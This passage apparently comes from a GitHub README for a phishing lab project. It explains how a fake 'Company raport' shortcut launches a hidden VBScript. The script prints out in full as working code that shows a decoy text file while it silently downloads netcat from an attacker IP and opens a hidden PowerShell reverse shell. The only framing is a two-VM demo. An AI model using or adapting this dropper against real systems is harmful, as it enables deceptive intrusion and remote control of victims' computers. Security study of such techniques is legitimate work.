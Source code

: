 When the Company raport shortcut is clicked, connection is set to download fake raport.txt file and netcat from the attacker. When the downloads are done, raport.txt opens while reverse shell is being cooked in the background.

See it in action: https://www.youtube.com/watch?v=ll4ojo6q-rM

Demo was made using 2 virtual machines:

    Kali Linux
    Windows 10

Structure:
Company raport .lnk -> Linked to revsh.vbs inside hidden payload folder

![efROc8J](https://github.com/therealhalonen/PhishSticks/assets/112076418/54cea3ed-6872-4f69-a483-2e6586fe12f6)
![nor5dNd](https://github.com/therealhalonen/PhishSticks/assets/112076418/8ef95081-a269-4667-8b0f-cf9cfb8eb2a5) 

revsh.vbs:

```vbs
Set objShell = CreateObject("Wscript.Shell")

' Download fake report
downloadRaport = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.3/raport.txt', '%TEMP%\raport.txt')"""
objShell.Run downloadRaport, 0, True

' Open report.txt
objShell.Run "cmd /c start """" %TEMP%\raport.txt", 0, True

' Download netcat from attacker IP
downloadCmd = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.3/nc64.exe', '%TEMP%\nc64.exe')"""
objShell.Run downloadCmd, 0, True

' Start reverse shell
execCmd = "cmd /c powershell -Command ""Start-Process \""%TEMP%\nc64.exe\"" -ArgumentList '192.168.56.3', '9001', '-e', 'powershell' -WindowStyle Hidden"""
objShell.Run execCmd, 0, True

Set objShell = Nothing
```

Both Virtual Machines were assigned to the same internal network, and the IP-address of the attacker machine was placed as a static in the payload command. Attacker machine was set to host raport.txt & nc64.exe  and open up netcat listener:

![2023-11-23_10-54](https://github.com/therealhalonen/PhishSticks/assets/112076418/3e9ea4b2-4ff3-4798-90d6-3dc368e22d44)

